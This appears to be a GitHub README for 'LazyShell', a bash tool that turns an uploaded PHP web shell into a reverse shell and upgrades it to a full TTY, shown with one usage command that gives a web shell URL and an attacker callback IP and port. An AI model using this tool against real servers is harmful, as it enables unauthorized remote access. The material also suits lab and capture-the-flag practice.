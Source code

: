 # LazyShell

Script made in bash for lazy people like me. Once you have uploaded a `php` file on a server and can execute commands through the `cmd` parameter, you will want to send a reverse shell to your machine and then upgrade it to a full interactive TTY. This script will do all of that for you using `tmux`

> Note: The php file should execute commads through the `cmd` parameter

# Usage

```bash
./lazyShell.sh -u http://panel.wallet.dl/images/uploads/logos/1734868120-test.php -i 172.17.0.1 -p 443
```

![image](https://github.com/user-attachments/assets/192c800c-894a-4194-950f-bb0e24dbec3d)
